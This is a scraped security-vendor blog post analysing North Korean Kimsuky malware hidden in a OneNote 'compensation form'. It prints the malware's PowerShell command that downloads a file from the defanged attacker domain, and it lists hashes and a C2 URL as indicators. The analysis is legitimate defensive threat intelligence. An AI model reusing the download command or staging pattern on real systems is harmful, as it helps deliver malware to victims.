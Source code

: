 # Reference for threat actor for "Kimsuky, Velvet Chollima"

**Title**: OneNote Malware Disguised as Compensation Form (Kimsuky) - ASEC BLOG

**Source**: https://asec.ahnlab.com/en/50303/

## Content


















OneNote Malware Disguised as Compensation Form (Kimsuky) - ASEC BLOG





































































 

Malware Information
AhnLab Detection
Statistics
Response Guide
AhnLab
 














Posted By yeeun  , March 24, 2023 

OneNote Malware Disguised as Compensation Form (Kimsuky) 
AhnLab Security Emergency response Center (ASEC) has discovered the distribution of a OneNote malware disguised as a form related to compensation. The confirmed file is impersonating the same research center as the LNK-type malware covered in the post below. Based on the identical malicious activity performed by the VBS files, the team has deduced that the same threat actor is behind both incidents.



Malware Distributed Disguised as a Password File




As shown in the figure below, a page discussing compensation appears when the OneNote file is opened, and prompts users to click on what appears to be the area where an HWP file is attached.

Figure 1. Contents displayed upon opening the OneNote file

Figure 2 makes it clear that this area does not contain an HWP file; rather, it conceals a malicious script object named ‘personal.vbs’.

Figure 2. Concealed malicious script

If a user clicks on this script, the malicious VBS file is created and executed under the filename personal.vbs in a temporary directory. The code of the generated VBS file makes the following, obfuscated command appear like an annotation before re-reading it to decrypt and execute the malicious command.

Figure 3. personal.vbs code

The decrypted script code ultimately accesses hxxp://delps.scienceontheweb.net/ital/info/list.php?query=1 to execute an additional script code. This URL is currently inaccessible, but its URL format reveals that it most likely executed an information-stealing script like the one in the post below.



Malware Disguised as a Manuscript Solicitation Letter (Targeting Security-Related Workers)




Afterward, it downloads and opens an HWP file from hxxp://delps.scienceontheweb.net/ital/info/sample.hwp through a PowerShell command. 

Executed PowerShell command
powershell $curpath=(New-Object -ComObject Shell.Application).NameSpace(‘shell:Downloads’).Self.Path;Invoke-WebRequest -Uri hxxp://delps.scienceontheweb.net/ital/info/sample.hwp -OutFile $curpath\personal.hwp;start-sleep -seconds 1


Figure 4. Ultimately executed script code

Although the HWP file could not be downloaded during the time of analysis, it is presumed that a normal HWP file was used in order to deceive users. Additionally, as the filename of the HWP file in the OneNote is the same as the filename (PersonalDataUseAgreement.hwp) shown in Figure 10 of the post <Malware Distributed Disguised as a Password File> (PersonalInfoUseAgreement.hwp), it is assumed that a similar HWP file was used in this case as well.
Due to recent confirmed cases of the Kimsuky group distributing malware in various forms such as CHM, LNK, and OneNote, which were previously distributed as Word files, users are strongly advised to exercise extra caution. These files are usually distributed via emails disguised as forms related to compensation or personal information, so users must practice caution when opening email attachments.
[File Detection]
Dropper/MSOffice.Generic (2023.03.20.02)
Trojan/VBS.Generic.SC186657 (2023.03.03.00)
[IOC]
MD5
aa756b20170aa0869d6f5d5b5f1b7c37 – OneNote
f2a0e92b80928830704a00c91df87644 – VBS
C2
hxxp://delps.scienceontheweb.net/ital/info/list.php?query=1
Subscribe to AhnLab’s next-generation threat intelligence platform ‘AhnLab TIP’ to check related IOC and detailed analysis information.



Categories:Malware Information 
Tagged as:Kimsuky,OneNote 




Warning for Microsoft Office Outlook Privilege Escalation Vulnerability (CVE-2023-23397) 

ChinaZ DDoS Bot Malware Distributed to Linux SSH Servers 







5
3
votes
Article Rating

 





 Subscribe




 Login 




Notify of 


new follow-up comments
new replies to my comments








 







 


Label












{}
[+]

 















Name*





Email





Website






[Important] Consent to Collection and Use of Personal Information


Purpose: Identify the contact information of user who left a comment and respond to inquiries on our blog posts.
Personal Information We Collect: Name of user and organization, Email address
Period of Retention: We store personal information for 3 months. Then, we delete and destroy personal information without delay.

 



I agree to AhnLab’s collection and use of personal information.




















Δ 










 


Label












{}
[+]

 















Name*





Email





Website






[Important] Consent to Collection and Use of Personal Information


Purpose: Identify the contact information of user who left a comment and respond to inquiries on our blog posts.
Personal Information We Collect: Name of user and organization, Email address
Period of Retention: We store personal information for 3 months. Then, we delete and destroy personal information without delay.

 



I agree to AhnLab’s collection and use of personal information.




















Δ 






3 Comments                    









 Inline Feedbacks                    
View all comments











OneNote Malware Disguised as Compensation Form (Kimsuky) - Ciberdefensa



    10 months ago













[…] post OneNote Malware Disguised as Compensation Form (Kimsuky) appeared first on ASEC […]






0






Reply













Kimsuky Group Using Meterpreter to Attack Web Servers - ASEC BLOG



    8 months ago













[…] which involved malicious file attachments to emails in MS Office document files[2],  OneNote [3], or CHM [4]file formats. Kimsuky group usually uses social engineering attacks like the […]






0






Reply













Malware Disguised as HWP Document File (Kimsuky) - ASEC BLOG



    7 months ago













[…] OneNote Malware Disguised as Compensation Form (Kimsuky) – Mar 24, 2023 […]






0






Reply




 













Archives Archives

Select Month
 February 2024 
 January 2024 
 December 2023 
 November 2023 
 October 2023 
 September 2023 
 August 2023 
 July 2023 
 June 2023 
 May 2023 
 April 2023 
 March 2023 
 February 2023 
 January 2023 
 December 2022 
 November 2022 
 October 2022 
 September 2022 
 August 2022 
 July 2022 
 June 2022 
 May 2022 
 April 2022 
 March 2022 
 February 2022 
 January 2022 
 December 2021 
 November 2021 
 October 2021 
 September 2021 
 August 2021 
 July 2021 
 June 2021 
 May 2021 
 April 2021 
 March 2021 
 February 2021 
 January 2021 
 December 2020 
 November 2020 
 September 2020 
 August 2020 
 July 2020 
 June 2020 
 May 2020 
 April 2020 
 March 2020 
 February 2020 
 December 2019 
 November 2019 
 October 2019 
 September 2019 
 August 2019 
 June 2019 
 May 2019 
 April 2019 
 March 2019 
 February 2019 
 January 2019 
 November 2018 
 July 2018 
 April 2018 
 February 2018 


FOLLOW US


LinkedIn   


X   


RSS Feed   









footer(en) 220, Pangyoyeok-ro, Bundang-gu, Seongnam-si, Gyeonggi-do, Korea | Privacy & Security© AhnLab, Inc. All rights reserved.family site


한국 (한국어)
Global (English)
日本 (日本語)
 




wpDiscuzInsert 









 




















































































Loading Comments...



 


Write a Comment...




Email



Name



Website















































































































































































































































